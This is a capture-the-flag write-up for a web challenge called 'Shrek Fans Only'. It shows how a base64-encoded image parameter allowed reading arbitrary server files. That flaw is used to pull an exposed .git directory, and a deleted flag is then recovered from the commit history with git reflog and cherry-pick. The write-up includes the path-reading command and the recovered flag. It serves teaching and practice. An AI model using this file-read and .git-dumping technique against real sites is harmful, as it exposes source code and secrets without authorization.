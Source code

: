 # Shrek Fans Only writeup

## Description

### My Story
A simple web page with a single image. too empty!!

But the url of image is somehow interesting (`http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`).
The `img` parameter value is like Base64 encoded value and it is. I tested by Javascript:
```
atob(decodeURIComponent('aW1nMS5qcGc%3D'))
"img1.jpg"
```

I wrote this simple Bash script, [getimg.sh](./getimg.sh), and tried different pathes and finally found `.git` directory files.
```
./getimg.sh ".git/HEAD"
```

OK! I should try to get `.git` directory data and find the flag in the past commits of repository.

### Exploit Time
I had to write a script that would get all parts of `.git` directory, but I didn't know the structure of this directory. I searched and found [this repository](https://github.com/arthaud/git-dumper) and read some parts of [git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) and did:
* mkdir git (I made this diretory to be the parent of `.git` directory)
* I wrote [my-dumper.py](./my-dumper.py) to get important files of `.git` directory.

I have these files now:
```
.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── post-commit.sample
│   ├── post-receive.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
│           └── origin
│               └── master
├── objects
│   └── info
└── refs
    ├── heads
    │   └── master
    └── remotes
        └── origin
            └── master
```
There should be some object files under `objects` direcotry that I don't know the names. So I tried to find out the SHA1s all over `.git` directory and used [getobject.sh script](./getobject.sh) to download and put them in the correct path.
```
$ cat .git/logs/HEAD
0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master

$ git checkout .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
Updated 3 paths from the index

$ git fsck --full
broken link from  commit 976b625888ae0d9ee9543f025254f71e10b7bcf8
              to    tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
broken link from  commit 759be945739b04b63a09e7c02d51567501ead033
              to    tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
broken link from  commit d421c6aa97e8b8a60d330336ec1e829c8ffd7199
              to    tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
missing tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
```

I use `git cherry-pick` command to get pre-'remove flag' files.
```
$ git reflog
d421c6a (HEAD -> master, origin/master) HEAD@{0}: checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
759be94 HEAD@{1}: checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
d421c6a (HEAD -> master, origin/master) HEAD@{2}: commit: added more stuff
976b625 HEAD@{3}: commit: remove flag
759be94 HEAD@{4}: commit (initial): initial commit

$ git cherry-pick 759be94
```

and after a conflict I saw `index.php` file.
```
$ cat index.php
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="imgproxy.php?img=img1.jpg">
<<<<<<< HEAD
<div>There used to be something here but Donkey won't leave me alone<div>
=======
<div>utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}</div>
>>>>>>> 759be94... initial commit
</body>
</html>
```
:sunglasses: You Can See The Conflict!

### Flag
`utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}`
